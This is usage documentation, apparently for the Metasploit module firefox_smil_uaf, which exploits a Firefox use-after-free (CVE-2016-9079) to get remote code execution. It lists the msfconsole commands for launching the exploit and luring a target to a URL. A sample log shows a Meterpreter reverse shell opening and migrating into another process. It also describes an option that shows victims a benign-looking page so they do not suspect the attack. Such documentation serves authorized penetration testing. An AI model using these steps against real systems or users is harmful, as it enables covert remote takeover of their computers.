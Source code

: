 Mozilla Firefox is a free, open-source web browser developed and maintained by the Mozilla Foundation.  Multiple versions are affected by a use-after-free vulnerability, detailed by CVE 2016-9079, that can result in arbitrary remote code execution.


## Vulnerable Application

The vulnerability is present in all releases of Mozilla Firefox prior to 50.0.2

Firefox 38 through 41 were specifically chosen as targets for this module, though support for more releases is planned.

## Usage

# UsePostHTML module option

The module includes an option named UsePostHTML which is turned off by default.  Setting this option to true will result in the module sending an HTML page to the target to be rendered after successful exploitation.  This can be useful in convincing the target that they have arrived at a legitimate, benign website.  If desired, please edit $datadirectory/exploits/firefox_smil_uaf/post.html to suit your needs.  The included example file more than likely won't be suitable for your purposes.

**Using firefox_smil_uaf**

1. Start msfconsole
2. Do: ```use exploit/windows/browser/firefox_smil_uaf```
3. Do: ```set payload [PREFERRED PAYLOAD]```
4. Do: ```set PAYLOAD [PAYLOAD NAME]```
5. Set payload options as needed
6. Do: ```run```, and have a target browse to the generated URL
7. Once a vulnerable target connects, you should receive a session like this:

```
[*] Exploit running as background job.

[*] Started reverse TCP handler on 192.168.79.132:6789 
[*] Using URL: http://192.168.79.132:4567/lol
[*] Server started.
msf exploit(firefox_smil_uaf) > [*] 192.168.79.184   firefox_smil_uaf - Got request: /lol/
[*] 192.168.79.184   firefox_smil_uaf - From: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:38.0) Gecko/20100101 Firefox/38.0
[*] 192.168.79.184   firefox_smil_uaf - Sending exploit HTML ...
[*] 192.168.79.184   firefox_smil_uaf - Got request: /lol/worker.js
[*] 192.168.79.184   firefox_smil_uaf - From: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:38.0) Gecko/20100101 Firefox/38.0
[*] 192.168.79.184   firefox_smil_uaf - Sending worker thread Javascript ...
[*] Sending stage (957487 bytes) to 192.168.79.184
[*] Meterpreter session 1 opened (192.168.79.132:6789 -> 192.168.79.184:52341) at 2017-01-20 11:25:38 -0600
[*] Session ID 1 (192.168.79.132:6789 -> 192.168.79.184:52341) processing InitialAutoRunScript 'migrate -f'
[*] Running module against WIN-UTRINKNPT3D
[*] Current server process: firefox.exe (1448)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 2572
[+] Successfully migrated to process 2572

```

